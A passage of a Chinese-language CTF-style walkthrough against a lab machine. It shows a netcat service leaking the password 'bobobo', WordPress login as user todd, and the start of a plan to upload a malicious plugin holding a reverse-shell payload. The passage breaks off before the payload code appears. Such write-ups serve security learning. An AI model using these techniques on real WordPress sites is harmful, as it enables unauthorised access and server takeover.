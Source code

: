 接着连接 `1338` 端口，尝试发送新密码。有趣的是，无论我们发送什么新密码，服务在返回成功信息的同时，都会泄露旧密码 `bobobo`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc 192.168.205.200 1338
Please send new password: admin
Congratulations! Password reset successful!
Old password: bobobo
```

多次尝试后发现旧密码始终是 `bobobo`，这表明 `1338` 端口的功能可能是伪造的，其真实目的是泄露一个固定密码。我们成功获得了一个关键凭证：`bobobo`。

## **2.2 Web服务渗透**

访问 `80` 端口的Web服务，在页面源码中发现一条注释，提示了域名 `halfhour.dsz`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -s 192.168.205.200 | sed '/<style>/,/<\/style>/d'
<!-- halfhour.dsz -->
<!DOCTYPE html>
...
```

将域名与IP地址绑定到 `/etc/hosts` 文件中。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo "192.168.205.200 halfhour.dsz" | sudo tee -a /etc/hosts
```

再次访问 `http://halfhour.dsz`，发现是一个 WordPress 站点。在默认文章“世界，您好！”中，作者的用户名为 `todd`。

结合之前获取的密码 `bobobo` 和现在发现的用户名 `todd`，尝试登录WordPress后台 (`/wp-admin`)。

*   **Username:** `todd`
*   **Password:** `bobobo`

登录成功！

# **三、获取WebShell**

获得WordPress后台权限后，可以通过多种方式获取WebShell，例如编辑主题文件、上传恶意插件等。这里我们采用上传恶意插件的方法。

## **3.1 构造恶意插件**

一个最简单的WordPress插件包含一个主PHP文件，用于声明插件信息。我们再额外添加一个用于反弹Shell的PHP文件。

目录结构：

```
my-shell-plugin/
├── reverse-shell.php  (插件信息文件)
└── reverse.php        (反弹Shell Payload)
```

**`reverse-shell.php` 内容:**
